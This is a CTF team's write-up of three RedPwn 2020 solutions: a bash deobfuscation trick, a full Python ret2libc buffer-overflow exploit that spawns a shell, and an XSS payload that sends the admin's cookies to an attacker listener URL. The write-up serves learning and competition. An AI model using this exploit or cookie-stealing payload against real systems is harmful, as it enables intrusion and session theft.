



>  RedPwn is an annual CTF event hosted online. 0x90skids recently competed in the 2020 competition and placed 63 overall.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        
    </div>
</div>


# Categories 

+  [Misc](#misc)
+  [Pwn](#pwn)
+  [Web](#web)

## Misc
### misc/uglybash
**Solved By:** tbutler0x90  
**Points:** 359  
**Flag:** flag{us3_zsh,-dummy}

##### Challenge
This bash script evaluates to echo dont just run it, dummy # flag{...} where the flag is in the comments.The comment won't be visible if you just execute the script. How can you mess with bash to get the value right before it executes?    

*Exerpt of Challenge Script, cmd.sh*
>  ```${*%c-dFqjfo}  e$'\u0076'al "$(   ${*%%Q+n\{}   "${@~}" $'\160'r""$'\151'$@nt"f" %s   ' }~~@{$"```

##### Solution
1) To see what the bash script evaluates to just prior to execution, the subshell option was used to run the entire script in debug mode with the -x flag. Additionally, parameters were added to the script to print the debug output to a file.

```bash
#!/bin/bash
exec 5> debug_output.txt
BASH_XTRACEFD="5"
### original script goes below here
```
2) The script was run with the -x flag. 
```bash
bash -x cmd.exe
```

3) Flag was located in the comments along the left side in the debug_output.txt, lines 70 -108  
<figure>

<figcaption>Fig 1. Flag is spelled out downwards on the left side</figcaption>
</figure>

## Pwn
### pwn/the-library
**Solved By:** cernec1999  
**Points:** 424  
**Flag:** flag{jump_1nt0_th3_l1brary}

##### Challenge
There's not a lot of useful functions in the binary itself. I wonder where you can get some...

##### Solution
When solving a binary exploitation task, the first step I normally take is to check out the permissions of the binary. We can use the ```checksec``` tool to do this. Additionally, we should check out the architecture of the binary.

```console
cernec1999@ccerne:~/Downloads$ checksec the-library
[*] '/home/cernec1999/Downloads/the-library'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
cernec1999@ccerne:~/Downloads$ file the-library 
the-library: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3067a5291814bef337dafc695eee28f371370eae, not stripped
```

With this information, it seems that intermediate binary exploitation techniques can be applied to solve this challenge. Fortunately, there are no stack cookies and the binary is not position independent. However, DEP is enabled, so we cannot simply jump to the stack to run shellcode.

Because of the challenge name, ```the-library```, my best assumption is that we need to jump to libc.

We are given no information about the host system, but we can assume that full ASLR is enabled and that the libraries are randomized. This means that every time a binary executes, the kernel assigns it a new base address to make exploitation harder. Thus, there must be a way for us to somehow leak the libc base address for system.

Unfortunately, we cannot use a print format vulnerability to leak the base address of libc. Instead, we can use a traditional buffer overflow vulnerability, utilizing some ROP gadgets, to gather the information that we need. Fortunately, we are given the source, so we can easily figure out how to trigger the overflow.

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to the library... What's your name?");

  read(0, name, 0x100);
  puts("Hello there: ");
  puts(name);
}
```

Using GDB, I figured out that exactly 24 bytes can be written into ```name``` before the return address is written to. Next, it is time to figure out useful gadgets to leak the libc base address. This should be pretty easy with a couple of leaked gadgets. In the Global Offset Table, at address ```0x600ff0``` is where ```__libc_start_main``` is stored. We can call ```puts``` in the binary to leak this address. Finally, we should jump back to the start of the code to get another overflow to jump to the ```system``` address in the libc library. Here is the code to do all of that:

```python
import struct, sys, telnetlib

# Connection info
HOST = '2020.redpwnc.tf'
PORT = '31350'

# Init a new Telnet session
my_tel = telnetlib.Telnet(HOST, PORT)

def p64_b(num):
    return struct.pack('<Q', num)

def p64_i(b_arr):
    return struct.unpack('<Q', b_arr)[0]

# Gadgets to leak libc
POP_RDI_RET = p64_b(0x400733)
LIBC_START = p64_b(0x600ff0)
PUTS_PLT = p64_b(0x400520)
START = p64_b(0x400550)

# Leak __libc_start_main address then jump 
chain = b'A'*24 + POP_RDI_RET + LIBC_START + PUTS_PLT + START
my_tel.write(chain)
```

Next, given this information, we should figure out where in libc to jump to. Fortunately, we are given the libc that is linked at runtime on the host system. There is a [great resource you can use](https://libc.blukat.me/) to identify a version of libc easily. I used this tool to figure out that the library is ```libc6_2.27-3ubuntu1_amd64```. It additionally calculated the offsets to useful functions.



Using this useful information, we can do the following:

1. Put a pointer to /bin/sh into RDI
2. Jump to system

Thus, our finished exploit looks like this:

```python
#!/usr/bin/python3

import struct, sys, telnetlib

# Connection info
HOST = '2020.redpwnc.tf'
PORT = '31350'

# Init a new Telnet session
my_tel = telnetlib.Telnet(HOST, PORT)

def p64_b(num):
    return struct.pack('<Q', num)

def p64_i(b_arr):
    return struct.unpack('<Q', b_arr)[0]

# Gadgets to leak libc
POP_RDI_RET = p64_b(0x400733)
LIBC_START = p64_b(0x600ff0)
PUTS_PLT = p64_b(0x400520)
START = p64_b(0x400550)

# Leak __libc_start_main address then jump 
chain = b'A'*24 + POP_RDI_RET + LIBC_START + PUTS_PLT + START
my_tel.write(chain)

# Get rid of junk
my_tel.read_until(b'there: ')
my_tel.read_until(b'\x0a')
my_tel.read_until(b'\x0a')

# Find address of libc, then turn it into system
libc_base = p64_i(my_tel.read_very_eager()[0:6] + b'\x00\x00')

# Now, with new information, jump to system!
BIN_SH_STR = p64_b(libc_base + 0x1923ea)
RET_GADGET = p64_b(0x400506)
SYSTEM_ADDR = p64_b(libc_base + 0x2d990)

# Construct the ROP chain
chain = b'A' * 24 + POP_RDI_RET + BIN_SH_STR + RET_GADGET + SYSTEM_ADDR

my_tel.write(chain)
my_tel.interact()
```

Voilà!

```console
cernec1999@ccerne:~/Downloads$ ./exp.py 
Hello there: 
AAAAAAAAAAAAAAAAAAAAAAAA3@
cat flag.txt
flag{jump_1nt0_th3_l1brary}
```

## Web
### web/static-static-website
**Solved By:** Bib<br>
**Points:** 435<br>
**Flag:** flag{wh0_n33d5_d0mpur1fy}

##### Challenge
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me [here](https://admin-bot.redpwnc.tf/submit?challenge=static-static-hosting)

Site: [static-static-hosting.2020.redpwnc.tf](https://static-static-hosting.2020.redpwnc.tf/)

Note: The site is entirely static. Dirbuster will not be useful in solving it.
##### Solution

To solve this, I needed to create an HTML page that, when opened by the "admin", would steal their cookies.
So the first thing I did was check the source of the HTML page to see if any sanitization was done when creating the HTML page.
The page has a ```script.js``` file that contained the following :

```
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.documentElement.innerHTML = clean(input);
}

function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

This told me that they removed all attributes except for ```src```, ```width```, ```height```, ```alt``` & ```class```.
Also, it removes the ```<script>``` tags and everything that's inside.

I've confirmed that I could do XSS by using an ```<iframe>``` or ```<embed>``` tag.

This is where I fell down a major rabbit hole...
Because of the filtered attributes, I thought that they wanted us to craft an SVG image containing malicious code. Unfortunately, that was not the case.
After losing a couple of hours down that rabbit hole, I decided to look for another solution.
I've thought about another idea : Why not try to send a hidden form that will submit itself when the "admin" clicks the link?
So I've come up with this code :

```
<html>
    <head>
    </head>
    <body>
            
<iframe src="javascript:var f=document.createElement('form');f.action='http://LISTENER_URL_HERE/';f.method='POST';
f.target='_blank';var k=document.createElement('input');k.type='hidden';k.name='flag';k.value=document.cookie;f.appendChild(k);document.body.appendChild(f);f.submit();console.log('Cookie stolen!');"></iframe>

    </body>
</html>
```

This main caveat here was the use of ```target='_blank'```.
If you don't open in a new tab, you would get the iframe cookies (no cookie was returned).
So finally, submitting this code to the admin page stole the cookie containing the flag and sent it to my listener.

I'm pretty happy with this solve, even though I went down a time-losing rabbit hole.
That SVG stuff was actually useful in another CTF we did later on.

```flag{wh0_n33d5_d0mpur1fy}```